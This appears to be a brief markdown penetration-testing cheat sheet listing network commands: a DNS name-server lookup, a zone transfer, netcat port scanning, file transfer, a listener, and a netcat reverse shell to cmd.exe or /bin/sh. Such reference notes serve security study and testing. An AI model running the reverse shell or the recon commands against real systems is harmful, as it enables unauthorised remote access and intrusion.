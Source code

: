 # rtfm

## network

<table>
  <tr>
    <th>command</th>
	<th>description</th>
  </tr>
  <tr>
    <td>host -t ns <i>domain</i></td>
    <td>ask the name servers for a domain</td>
  </tr>
  <tr>
    <td>host -l <i>domain nameServer</i></td>
    <td>dns zone transfer</td>
  </tr>
  <tr>
    <td>nc <i>ip port</i> -e <i>shell</td>
    <td>start reverse shell: cmd.exe, /bin/sh</td>
  </tr>
  <tr>
    <td>nc -l -p <i>port</td>
    <td>start listener</td>
  </tr>
  <tr>
    <td>nc -v -n -z -w1 <i>ip startPort</i> - <i>endPort</td>
    <td>tcp port scanner</td> 
  </tr>
  <tr>
    <td>nc -l -p <i>port fileName</i><br>nc -w3 <i>ip port fileName</td>
    <td>file transfers</td>
  </tr>
</table>
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTA0NTQwMzk4MSwtMTk2NjU4ODUxNV19
-->